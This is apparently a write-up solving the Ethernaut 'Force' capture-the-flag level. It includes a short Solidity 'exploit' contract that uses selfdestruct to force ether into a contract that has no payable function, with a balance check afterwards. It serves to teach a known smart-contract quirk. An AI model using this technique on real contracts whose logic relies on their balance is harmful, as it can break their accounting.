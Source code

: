 # Force

>Some contracts will simply not take your money ¯\_(ツ)_/¯
>
>The goal of this level is to make the balance of the contract greater than zero.

>  Things that might help:
>
> - Fallback methods
> - Sometimes the best way to attack a contract is with another contract.
> - See the "?" page above, section "Beyond the console"

```solidity 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

In this challenge, we have an empty contract Force which does not have any payable function so it looks like there is no way to supply eth to this contract.

To pass this level, we must increase the balance of this contract. 

One way of doing this is by making use of `selfdestruct`.

Selfdestruct is a function which sends all remaining Ether stored in a contract to a designated address. 
You can read more about selfdestruct [here](https://www.alchemy.com/overviews/selfdestruct-solidity)

So what we can do is, write a smart contract `exploit`, transfer some eth to it and then call selfdestruct with address of the Force contract as arguement.

The exploit contract can be written like this,

```solidity
contract exploit{
    receive() external payable{}
    address payable _force = 0xE84694996a994931aC7b2925D4BaBB25C8d7c3d3;

    function destroy() public {
        selfdestruct(_force);
    }
}
```

Deploy this contract through remix (or on any other platform) and transact some eth to this contract. Call the destroy function and then check the balance of Force contract.

```javascript
await getBalance(contract.address)
'0.00000000000000001'
```

Now we can submit the instance.
